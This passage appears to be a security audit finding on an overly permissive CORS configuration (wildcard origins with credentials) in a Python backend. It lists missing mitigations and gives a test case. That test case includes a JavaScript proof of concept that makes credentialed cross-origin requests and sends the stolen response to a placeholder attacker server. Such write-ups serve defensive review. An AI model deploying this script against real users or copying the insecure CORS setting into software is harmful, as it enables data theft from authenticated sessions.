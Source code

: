 ### Currently implemented mitigations
None. The CORS configuration is completely permissive.

### Missing mitigations
- Restriction of allowed origins to trusted domains
- Removal of `allow_credentials=True` if wildcard origins are necessary
- Implementation of CSRF tokens for sensitive operations

### Preconditions
- The backend service must be publicly accessible
- User must visit a malicious website while logged into the application

### Source code analysis
In `main.py`, the CORS middleware is configured with the following settings:

```python
app.add_middleware(
    CORSMiddleware,
    allow_origins=["*"],
    allow_credentials=True,
    allow_methods=["*"],
    allow_headers=["*"],
)
```

This configuration allows any website to make cross-origin requests to the API, including credentials (cookies, HTTP authentication). According to CORS security best practices, using `allow_origins=["*"]` with `allow_credentials=True` is especially dangerous and actually violates the CORS specification.

### Security test case
1. Create a malicious HTML page with JavaScript that makes a fetch request to the backend API:
   ```html
   <script>
   fetch('http://backend-server:7001/generate-code', {
     method: 'POST',
     credentials: 'include',
     body: JSON.stringify({
       // malicious payload
     })
   })
   .then(response => response.json())
   .then(data => {
     // Send the data to attacker's server
     fetch('https://attacker.com/steal', {
       method: 'POST',
       body: JSON.stringify(data)
     });
   });
   </script>
   ```
2. Host this page on a different domain
3. When a user who is authenticated to the backend visits this page, the malicious script can make authenticated requests to the API
4. Verify that the request succeeds despite coming from a different origin
